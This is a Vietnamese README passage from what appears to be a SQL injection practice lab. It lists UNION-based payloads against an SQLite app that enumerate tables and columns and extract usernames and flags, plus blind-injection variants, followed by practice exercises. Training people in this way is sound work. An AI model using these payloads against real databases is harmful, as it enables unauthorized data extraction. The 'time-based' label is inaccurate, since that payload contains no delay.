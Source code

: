 ## 🧪 Payloads Nâng Cao

### Information Gathering

```sql
-- Liệt kê tables
' UNION SELECT 1, name FROM sqlite_master WHERE type='table'--

-- Liệt kê columns của table posts
' UNION SELECT 1, sql FROM sqlite_master WHERE name='posts'--

-- Đếm số records trong mỗi table
' UNION SELECT 1, 'posts: ' || COUNT(*) FROM posts--
' UNION SELECT 1, 'users: ' || COUNT(*) FROM users--
' UNION SELECT 1, 'secret: ' || COUNT(*) FROM secret--
```

### Data Extraction

```sql
-- Lấy tất cả users
' UNION SELECT id, username FROM users--

-- Lấy tất cả flags
' UNION SELECT id, flag FROM secret--

-- Lấy comments gần nhất
' UNION SELECT id, comment FROM comments ORDER BY created_at DESC LIMIT 5--
```

### Advanced Techniques

```sql
-- Time-based blind SQL injection
' UNION SELECT 1, CASE WHEN (SELECT COUNT(*) FROM secret) > 0 THEN 'YES' ELSE 'NO' END--

-- Boolean-based blind SQL injection
' UNION SELECT 1, CASE WHEN (SELECT flag FROM secret WHERE id=1) LIKE 'FLAG%' THEN 'YES' ELSE 'NO' END--

-- Error-based SQL injection
' UNION SELECT 1, (SELECT flag FROM secret WHERE id=1)--
```

## 🎓 Bài Tập Thực Hành

### Level 1: Basic

1. Tìm tất cả bài viết có chứa từ "bảo mật"
2. Phát hiện lỗ hổng SQL Injection
3. Lấy danh sách tất cả tables
